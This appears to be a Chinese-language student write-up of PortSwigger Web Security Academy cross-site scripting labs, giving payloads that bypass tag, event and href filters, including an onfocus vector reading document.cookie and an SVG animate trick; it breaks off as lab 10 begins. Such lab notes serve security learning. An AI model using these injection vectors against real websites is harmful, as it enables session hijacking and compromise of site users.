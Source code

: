 点击ssss的位置，实现弹窗，更进一步，题目要求注入tag，自动弹出cookie，在服务器的body中输入以下payload：

    <script>
    location = 'https://ac761f121f6a1871c0e7086d00c700e4.web-security-academy.net/?search=%3Ccc+id%3Dx+onfocus%3D%22alert%28document.cookie%29%22+tabindex%3D1%3E#x';
    </script>

编码前代码为：

	<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
由focus事件触发alert函数，结尾处实现focus到这个element的功能，随即触发alert（此处有些不理解）。


####lab9反射型XSS并且屏蔽了event处理和href属性####
靶场中存在反射型XSS，并且有一些tag白名单，但是所有的event和href属性被屏蔽了。要求注入xss一个向量，点击后实现弹窗。提示：需要标记这个向量为click，例如：
	
	<a href="">Click me</a>

搜索框中输入111，有回显，可能存在XSS：
![avatar](pic/lab9.1.PNG)
继续输入以下payload：

	<script>alert(1)</script>
显示tag is not allowed。用burp进行fuzz，看哪些tag能用。结果发现，只有<a><animate><image><svg><title>可以使用。尝试使用<a>,
采用：

	<a id=x onclick=alert(1)>dddd</a>
提示，event is not allowed,故用burp fuzz event，发现所有的event都被屏蔽了。
继续采用href属性，如下：

	<a id=x href="javascript:alert(1)">aaaa</a>
提示attribute is not allowed.目前不知道其他用法。
尝试采用<svg>

答案是：
	<svg><a><text x=100 y=100>123</text><animate attributeName=href to=javascript:alert(1)></a></svg>
	//在svg内需要加上坐标文字才能显示出来
具体不太理解，感觉想不到。
####lab10反射型XSS并且允许有些SVG markup####
靶场中存在XSS漏洞，网站屏蔽了普通的tag，除了一些SVG的tag和event，要求触发alert函数。
